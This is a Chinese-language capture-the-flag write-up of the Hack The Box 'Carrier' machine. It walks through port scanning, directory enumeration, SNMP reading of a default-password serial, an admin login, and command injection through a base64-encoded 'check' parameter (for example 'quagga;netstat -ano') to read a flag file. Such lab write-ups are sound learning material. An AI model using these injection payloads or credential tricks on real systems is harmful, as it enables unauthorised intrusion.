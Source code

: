 # 介绍
carrier的链接

https://www.hackthebox.eu/home/machines/profile/155

IP地址：10.10.10.105

# 端口扫描
```
nmap -sT -sU -T4 10.10.10.105 -v
```
发现该主机开放的端口如下：
```
TCP
21 ftp 过滤状态
22 ssh
80 web
UDP
161 snmp
67 dhcp 过滤状态
32774 rpc12 过滤状态
```
# 渗透测试
通过浏览器打开`http://10.10.10.105/`，发现是一个登陆页面。

![1549870730186](F:\学习资料\github\ctf-writeup\hackthebox\carrier\assets\1549870730186.png)

进行目录遍历，发现存在如下目录信息

```
python3 dirsearch.py -u http://10.10.10.105 -e php
```

```
[15:26:42] 301 -  310B  - /css  ->  http://10.10.10.105/css/
[15:26:43] 302 -    0B  - /dashboard.php  ->  /index.php
[15:26:48] 301 -  312B  - /debug  ->  http://10.10.10.105/debug/
[15:26:52] 200 -    1KB - /doc/
[15:26:53] 301 -  310B  - /doc  ->  http://10.10.10.105/doc/
[15:27:02] 200 -   83KB - /debug/
[15:27:17] 301 -  312B  - /fonts  ->  http://10.10.10.105/fonts/
[15:27:33] 301 -  310B  - /img  ->  http://10.10.10.105/img/
[15:27:37] 200 -    1KB - /index.php/login/
[15:27:38] 200 -    1KB - /index.php
[15:27:45] 301 -  309B  - /js  ->  http://10.10.10.105/js/
[15:29:05] 403 -  300B  - /server-status
[15:29:06] 403 -  301B  - /server-status/
[15:29:46] 301 -  312B  - /tools  ->  http://10.10.10.105/tools/
```

通过分析上述内容，可以看出，目前可访问的目录有

```
/doc/
/debug/
/img/
/js/
/tools/
```

尝试访问`/doc/`，发现有两个文件。

![1549870897285](F:\学习资料\github\ctf-writeup\hackthebox\carrier\assets\1549870897285.png)

其中的图片是一个拓扑图，pdf是一个错误代码的列表

![1549870997476](F:\学习资料\github\ctf-writeup\hackthebox\carrier\assets\1549870997476.png)

观察到其中`45009`，可以看到提示说默认密码是序列号。

通过之前的端口扫描，可以知道这台主机同时开放着snmp服务，可以尝试读取snmp看是否允许被访问到一些信息。

```
snmpwalk -v 1 -c public 10.10.10.105
```

成功读取到一些信息。

```
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

应该就是序列号，那么我们返回登陆页面，尝试登陆。

用户名/密码：`admin/NET_45JDX23`

成功登陆进入。

![1549871250603](F:\学习资料\github\ctf-writeup\hackthebox\carrier\assets\1549871250603.png)

查看`Tickets`页面，发现一些信息提示。

```
10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network
```

提示内容是说10.120.15.0/24网段存在一个重要的ftp服务器。

继续查看`Diagnostics`页面，点击“verify status”，发现会回显一些命令格式的结果。猜测有可能有命令注入的漏洞。

抓包获取数据包，发现有可控参数`check`，原有参数是`cXVhZ2dh`

经过base64解码，得出是`quagga`，这与输出中的部分内容可以匹配。

构造一段命令尝试是否存在命令注入`quagga;netstat -ano`，将其转换为base64，`cXVhZ2dhO25ldHN0YXQgLWFubw==`

提交结果，发现确实存在命令注入，成功获得输出。

![1549873194231](F:\学习资料\github\ctf-writeup\hackthebox\carrier\assets\1549873194231.png)

尝试构造命令，搜索`user.txt`文件，发现在`/root/user.txt`

继续构造命令，查看该文件内容，`cat /root/user.txt`，base64转换。

成功读取到该文件的内容，获取到了第一步的flag。

继续尝试搜索`root.txt`，发现没有，猜测应该在这台机子的内网里。应该是需要以这台主机为跳板进行内网渗透了。

到此为止，时间原因，未继续做下一步的渗透测试工作。

